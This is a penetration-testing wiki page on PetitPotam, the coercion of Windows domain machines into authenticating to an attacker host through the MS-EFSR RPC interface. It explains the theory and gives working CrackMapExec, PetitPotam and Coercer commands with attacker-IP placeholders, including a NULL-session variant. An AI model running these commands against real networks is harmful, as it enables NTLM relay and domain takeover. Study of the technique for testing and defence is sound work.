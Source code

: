 # MS-EFSR abuse (PetitPotam)

## Theory

MS-EFSR is Microsoft's Encrypting File System Remote protocol. It performs maintenance and management operations on encrypted data that is stored remotely and accessed over a network ([docs.microsoft.com](https://docs.microsoft.com/en-us/openspecs/windows\_protocols/ms-efsr)) and is available as an RPC interface. That interface is available through the `\pipe\efsrpc`, `\pipe\lsarpc`, `\pipe\samr`, `\pipe\lsass` and `\pipe\netlogon` SMB named pipes.

In 2019, Google's Project Zero research team found and reported a bug on MS-EFSR that could be combined with a [NTLM Reflection attack](https://bugs.chromium.org/p/project-zero/issues/detail?id=222) leading to a Local Privilege Elevation. An insufficient path check in MS-EFSR's `EfsRpcOpenFileRaw` method allowed attackers to force the `SYSTEM` account into creating an executable file of the attacker's choosing, hence providing the attacker with local admin rights.

While the wider implications of this bug, AD-DS-wise, were only suspected, in 2021, [Lionel GILLES](https://twitter.com/topotam77/status/1416833996923809793) used that bug to remotely coerce domain-joined machine's authentication. **The coerced authentications are made over SMB**. But MS-EFSR abuse can be combined with [WebClient abuse](webclient.md) to elicit incoming authentications made over HTTP which heightens [NTLM relay](../ntlm/relay.md) capabilities.

The following MS-EFSR's methods were detected vulnerable

* `EfsRpcOpenFileRaw` and `EfsRpcEncryptFileSrv` ([partially patched by Microsoft](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-36942))
* `EfsRpcEncryptFileSrv`, `EfsRpcDecryptFileSrv`, `EfsRpcQueryUsersOnFile`, `EfsRpcQueryRecoveryAgents`, `EfsRpcRemoveUsersFromFile`, `EfsRpcAddUsersToFile`, `EfsRpcFileKeyInfo`, `EfsRpcDuplicateEncryptionInfoFile`, `EfsRpcAddUsersToFileEx` (unpatched at the time of this article update, 29th December 2021)

## Practice

{% tabs %}
{% tab title="Enumerate" %}
[CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) (Python) can be used to check if the target is vulnerable to PetitPotam.

```bash
crackmapexec smb <TARGET> -u <USER> -p <PASSWORD> -M petitpotam -o PIPE=netlogon
```
{% endtab %}

{% tab title="Exploit" %}
#### Topotam's exploit

An authentication can be forced with the original author's proof-of-concepts dubbed "[PetitPotam](https://github.com/topotam/PetitPotam)" (available in C and Python) by using a valid AD account's credentials.

```bash
Petitpotam.py -d $DOMAIN -u $USER -p $PASSWORD $ATTACKER_IP $TARGET_IP
```

#### ly4k's exploit

An alternative Python implementation ([https://github.com/ly4k/PetitPotam](https://github.com/ly4k/PetitPotam)) can be used to exploit other unpatched methods that the original implementation doesn't feature.

```bash
# With $TARGET as [[domain/]username[:password]@]<targetName or address>
petitpotam.py -method AddUsersToFile -pipe netlogon $TARGET '\\$ATTACKER_IP\share\foo'
```

#### Coercer

Yet another alternative is to use the [Coercer](https://github.com/p0dalirius/Coercer/tree/master) tool (python) as follow.

```bash
coercer coerce -u $USER -p $PASSWORD -d $DOMAIN --filter-protocol-name MS-EFSR -l $ATTACKER_IP -t $TARGET_IP
```
{% endtab %}
{% endtabs %}

{% hint style="info" %}
**Nota bene**: coerced NTLM authentications made over SMB restrict the possibilities of [NTLM relay](../ntlm/relay.md). For instance, an "unsigning cross-protocols relay attack" from SMB to LDAP will only be possible if the target is vulnerable to CVE-2019-1040 or CVE-2019-1166.
{% endhint %}

{% hint style="success" %}
Some tests conducted in lab environments showed that, unlike the [MS-RPRN abuse (printbug)](ms-rprn.md), a NULL session could potentially be used to trigger that bug (if allowed by the target). This has only been verified to be working on on Windows Server 2016 and Windows Server 2019 Domain Controllers.

```bash
Petitpotam.py $ATTACKER_IP $TARGET_IP
```
{% endhint %}

{% hint style="success" %}
For the proof of concept to work, using a proper security provider (`RPC_C_AUTHN_WINNT`) and authentication level (`RPC_C_AUTHN_LEVEL_PKT_PRIVACY`) can be required, especially if the target is patched against MS-EFSR abuse (which doesn't completely mitigate the vulnerability). In both tools mentioned above, this is enabled by default only on topotam's one.
{% endhint %}

## Resources

{% embed url="https://www.exploit-db.com/exploits/47115" %}

{% embed url="https://github.com/topotam/PetitPotam" %}

{% embed url="https://github.com/ly4k/PetitPotam" %}

{% embed url="https://blog.compass-security.com/2020/05/relaying-ntlm-authentication-over-rpc" %}
Understand RPC better
{% endembed %}
